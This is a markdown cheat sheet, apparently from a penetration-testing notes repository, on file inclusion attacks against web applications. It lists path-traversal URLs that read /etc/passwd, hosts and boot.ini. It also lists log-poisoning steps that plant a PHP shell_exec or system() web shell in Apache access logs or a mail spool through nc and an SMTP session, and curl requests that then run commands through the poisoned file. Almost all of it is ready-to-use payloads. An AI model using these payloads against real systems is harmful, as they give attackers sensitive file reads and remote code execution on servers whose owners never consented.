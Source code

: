 ```yaml
---
title: Local and Remote file inclusion
category: web
order: 1
---
```




# 1 Local File inclusion
---
* linux:  
```
      https://insecure-website.com/loadImage?filename=../../../etc/passwd
```
* windows
  ```
  http://target.com/?page=c:\windows\system32\drivers\etc\hosts
  http://webserver:ip/index.html?../../../../../boot.ini

  ```


### Log Poisoning  

* web log poisoning
```
nc 10.10.10.14 80
<?php echo '<pre>' . shell_exec($_GET['cmd'])  . '</pre>'; ?>
```
* **linux**
```
curl http://10.10.0.1/addguestbook.php?name=Test&comment=Which+lang%3F&cmd=ipconfig&LANG=../../../../../../../xampp/apache/logs/access.log%00&Submit=Submit
```

* **windows**
```
curl http://10.10.10.14/menu.php?file=c:\xamp\apache\logs\access.log&cmd=ls
```

### SSH log posioning  
http://www.hackingarticles.in/rce-with-lfi-and-ssh-log-poisoning/  

### Mail log  
LFI /var/mail/<user>  

```
telnet <IP> 25  
EHLO <random character>  

VRFY <user>@localhost  

mail from:attacker@attack.com  
rcpt to: <user>@localhost  
data  

Subject: title  

<?php echo system($_REQUEST[cmd]); ?>  

<end with .>  

```
